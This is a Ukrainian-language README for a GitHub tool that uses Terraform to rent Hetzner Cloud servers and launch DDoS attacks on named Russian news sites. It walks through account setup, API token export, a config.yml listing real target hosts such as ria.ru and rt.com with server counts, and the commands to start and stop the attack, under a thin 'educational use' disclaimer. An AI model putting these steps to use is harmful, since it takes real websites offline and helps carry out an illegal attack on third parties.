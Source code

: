 ## DDoS via Hetzner Cloud 

**hcloud-tf-kozak-launcher** допомогає з легкістю підняти сервери на хмарних рішеннях hetzner cloud (аналог aws) і, наприклад, безпечно їбашити DDoS атаки на кацапіські сайти. (хоча ми наполегливо рекомендуємо використовувати виключно в навчальних цілях)

Примітка: плата за сервери буде десь від $1 до $5 в день в залежності від апетитів:) 

Як це працює:
- Ви вказуєте кількість серверів, які будуть робити DDoS атаки.
- Описуєте, конкретні домени, які треба покласти.
- Запускаєте
- Коли вже необхідність в DDoS падає, зупиняєте роботу серверів.
- Запускаєте знов вказуючи інші сайти і так по колу.

## Інсталюйте допоможні сервіси

**1. Реєстрація на [hetzner:cloud](https://www.hetzner.com/cloud)**

Створіть тут аккаунт, ця штука дозволить стартувати сервери. Треба пройти реєстрацію і вказати документ, який підтверджує особу (паспорт або права). Якшо відмовляє – пробуйте інший документ.
    
**2. Створіть новий проект на [hetzner](https://www.hetzner.com/cloud)**

**3. Створіть API-токен на [hetzner](https://www.hetzner.com/cloud)**

*Ваш новий створений проект -> Security -> API TOKENS -> GENERATE API TOKEN (виберіть Read + Write)
    
**4. Відкрийте консоль**

**5. Експортуйте ново-згенерований API token через команду**
```bash
export TF_VAR_hcloud_token=<ваш токен>
```
**6. Встановіть Terraform** ([інстукція](https://learn.hashicorp.com/tutorials/terraform/install-cli))


---
## Атака
**1. Клонуйте цей проект з гітхабу та перейдіть в корінь директорії репозиторія**
```bash
git clone https://github.com/higef/hcloud-tf-kozak-launcher.git
cd hcloud-tf-kozak-launcher
```
**2. Заповніть config.yml (знаоходиться в директорії проекту) з сайтами, які треба покласти та кількістю серверів**
```yml
targets:
  - host: https://ria.ru
    count: 10
  - host: https://www.rt.com
    count: 3
```
**3. Запуск серверів та початок DDoS атаки**

```terraform
terraform init
terraform apply -auto-approve"
```

**4. Зупиніть ці сервери, як закінчите (краще не більше години)**
```terraform
terraform destroy -auto-approve
```

# СЛАВА УКРАЇНІ, ГЕРОЯМ СЛАВА 💛💙


Злизано з  https://github.com/UA-TECH-POWER/DDoS_terraform_aws